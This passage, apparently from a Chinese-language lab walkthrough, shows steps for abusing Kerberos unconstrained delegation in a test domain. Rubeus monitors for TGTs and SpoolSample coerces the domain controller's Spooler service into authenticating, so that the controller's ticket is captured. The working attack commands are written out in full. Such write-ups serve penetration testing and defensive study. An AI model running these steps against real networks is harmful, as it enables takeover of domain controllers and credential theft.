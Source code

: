 ```bash
#格式：
Rubeus.exe monitor /interval:5 /filteruser:VICTIM-DC-NAME$

#示例：
Rubeus.exe monitor /interval:5 /filteruser:dc$
```

[![](assets/1705982146-106bc5573d90ebaac49afa16288c5ffd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222802-1dfe7508-b7a0-1.png)  
Step 4：使用 spoolSample.exe 向 DC 的 Spooler 服务发送请求，强制其访问 win7 进行身份验证

```bash
SpoolSample.exe dc.hacke.testlab win7-test.hacke.testlab
```

[![](assets/1705982146-43db67d6c4da105cf4e43610fcaadd52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222818-27d57856-b7a0-1.png)  
Step 5:之后在 Rubuse 中成功捕捉到来自目标 dc 的认证请求 (此时的 Rubeus.exe 捕获到的 TGT 是 base64 编码的，但是我们不需要解码，Rubeus 可以直接将 base64 编码的票据直接注入到内存中)  